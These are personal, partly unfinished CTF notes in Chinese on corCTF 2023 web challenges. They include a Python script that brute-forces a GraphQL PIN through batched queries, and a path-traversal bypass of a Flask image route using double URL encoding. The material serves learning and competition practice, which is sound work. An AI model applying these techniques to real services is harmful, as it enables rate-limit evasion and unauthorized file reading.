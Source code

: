 # web
https://siunam321.github.io/ctf/corCTF-2023/
### force
#GraphQL
核心代码
```js
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801191544.png)
要让传进去的flag\=\=一个随机数 ,而且限制了最大request,无法爆破

```http
POST / HTTP/1.1
Host: web-force-force-071653fc1aff533c.be.ax
Content-Length: 20
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: text/plain
Accept: */*
Origin: https://web-force-force-328a9076b0a2deb6.be.ax
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-force-force-328a9076b0a2deb6.be.ax/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    flag(pin:11)
}
```

不知道怎么绕过...

---

GraphQL的特性是支持一条http请求里执行多个查询也就是`batch query`
https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
```python
{
batch1:flag(pin:0)

batch2:flag(pin:1)
}
```

*python*
```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}



while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

### msfrognymize
一个上传图片后对可以对人脸进行打码的网站

---
漏洞在查看文件处...可以目录穿越
```python
@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```
两次url编码,直接可以到根目录,光想着往上穿了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801221808.png)



### frogshare
#xss 
![image](https://i.imgur.com/lN64zKd.png)
可以根据传入的参数生成一个svg样式

测试了一下[svg_存储xss](https://infosecwriteups.com/stored-xss-using-svg-file-2e3608248fae) 直接访问svg可以xss,但是这道题里生成的没法xss

# reverse
https://blog.solidity.kr/posts/(ctf)-2023-corctf/
### utterly-deranged
直接f5会提示`too big function`,修改配置文件里的选项,还是不行,反编译半天也没结果
我们需要反反编译


# pwn

# crypto

# Misc


---
# *相关wp*




2023-08-01   19:14